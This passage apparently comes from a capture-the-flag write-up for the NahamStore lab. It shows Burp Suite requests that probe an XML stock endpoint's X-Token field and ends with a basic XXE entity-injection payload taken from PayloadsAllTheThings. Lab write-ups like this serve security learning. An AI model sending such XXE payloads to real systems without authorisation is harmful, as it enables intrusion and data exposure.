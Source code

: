 **Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token not supplied</error></data>
```

This error message means we didn't provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<?xml version="1.0"?>
<data><X-Token>anything </X-Token></data>
```

**Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token anything is invalid</error></data>
```

**We can see that the `X-Token` is being reflected, which means it's vulnerable to XXE, or XML external entity injection.**

**I'll try a XXE payload in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#detect-the-vulnerability):**

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<!DOCTYPE replace [<!ENTITY xxe "XXE payload"> ]>
<data><X-Token>&xxe; </X-Token></data>
```
